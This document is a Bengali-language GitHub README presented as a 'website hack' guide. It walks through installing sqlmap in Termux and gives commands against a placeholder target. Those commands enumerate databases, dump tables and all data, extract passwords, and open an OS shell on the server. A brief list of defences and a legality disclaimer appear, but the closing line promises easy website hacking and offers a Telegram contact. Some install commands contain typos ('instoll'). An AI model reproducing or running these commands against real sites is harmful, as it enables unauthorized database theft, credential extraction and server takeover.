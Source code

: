 # Website_hack_sqlmap


### **Termux-এ SQLMap ব্যবহারের সম্পূর্ণ গাইডলাইন**  

Termux-এ **SQLMap** ব্যবহার করে SQL ইনজেকশন পরীক্ষা করা সহজ, তবে এর জন্য কিছু সেটআপ করতে হবে।  

---

## **1️⃣ Termux-এ SQLMap ইনস্টলেশন**  

### **🔹 ধাপ 1: Termux আপডেট করুন**  
```bash
pkg update && pkg upgrade -y
```

### **🔹 ধাপ 2: প্রয়োজনীয় প্যাকেজ ইনস্টল করুন**  
```bash
pkg install python -y
pkg instoll python2 -y
pkg instoll git -y
```

### **🔹 ধাপ 3: SQLMap ক্লোন করুন**  
```bash
git clone https://github.com/sqlmapproject/sqlmap.git
```

### **🔹 ধাপ 4: SQLMap ফোল্ডারে যান**  
```bash
cd sqlmap
```

### **🔹 ধাপ 5: SQLMap রান করুন**  
```bash
python sqlmap.py --help
```

---

## **2️⃣ SQLMap ব্যবহারের মূল কমান্ড**  

### **🔹 1. SQL ইনজেকশন চেক করা**  
```bash
python sqlmap.py -u "http://target.com/page.php?id=1" --dbs
```
**👉 এটি টার্গেট ওয়েবসাইটে SQL ইনজেকশন আছে কিনা তা পরীক্ষা করবে এবং ডাটাবেস লিস্ট দেখাবে।**  

---

### **🔹 2. নির্দিষ্ট ডাটাবেসের টেবিল লিস্ট বের করা**  
```bash
python sqlmap.py -u "http://target.com/page.php?id=1" -D database_name --tables
```

---

### **🔹 3. নির্দিষ্ট টেবিলের কলাম লিস্ট বের করা**  
```bash
python sqlmap.py -u "http://target.com/page.php?id=1" -D database_name -T table_name --columns
```

---

### **🔹 4. নির্দিষ্ট কলাম থেকে তথ্য বের করা**  
```bash
python sqlmap.py -u "http://target.com/page.php?id=1" -D database_name -T table_name -C column1,column2 --dump
```

---

### **🔹 5. সম্পূর্ণ ডাটাবেসের তথ্য বের করা**  
```bash
python sqlmap.py -u "http://target.com/page.php?id=1" --dump-all
```

---

### **🔹 6. লগইন পাসওয়ার্ড বের করা**  
```bash
python sqlmap.py -u "http://target.com/login.php" --passwords
```

---

### **🔹 7. ওয়েবসাইটে শেল (Shell Access) নেওয়া**  
```bash
python sqlmap.py -u "http://target.com/page.php?id=1" --os-shell
```

---

## **3️⃣ Termux-এ SQLMap দিয়ে গভীর স্ক্যান করা**  

### **🔹 1. ওয়েবসাইটের ইনজেকশন ধরার জন্য ডিপ স্ক্যান**  
```bash
python sqlmap.py -u "http://target.com/page.php?id=1" --level=5 --risk=3 --dbs
```
**👉 `--level=5` এবং `--risk=3` ব্যবহার করলে গভীরভাবে SQL ইনজেকশন পরীক্ষা করা যাবে।**  

---

## **4️⃣ প্রতিরোধ ব্যবস্থা:**  
✅ **Prepared Statements ব্যবহার করুন**  
✅ **User Input Validation করুন**  
✅ **WAF (Web Application Firewall) ব্যবহার করুন**  
✅ **ডাটাবেসের অপ্রয়োজনীয় পারমিশন বন্ধ করুন**  

---

## **⚠️ সতর্কতা:**  
❌ **SQLMap অন্যের অনুমতি ছাড়া ব্যবহার করা আইনত অপরাধ।**  
❌ **শুধুমাত্র সিকিউরিটি টেস্টিং ও লার্নিং পারপাসের জন্য ব্যবহার করুন।**  

---

## **🔹 শেষ কথা**  
Termux-এ SQLMap সেটআপ ও ব্যবহারের এই গাইড অনুসরণ করলে আপনি সহজেই website hack করতে পারবেন। 
যদি আরও কিছু জানতে চান যোগাযোগ করতে পারেন 
Telegram: t.me/Romzan_99 
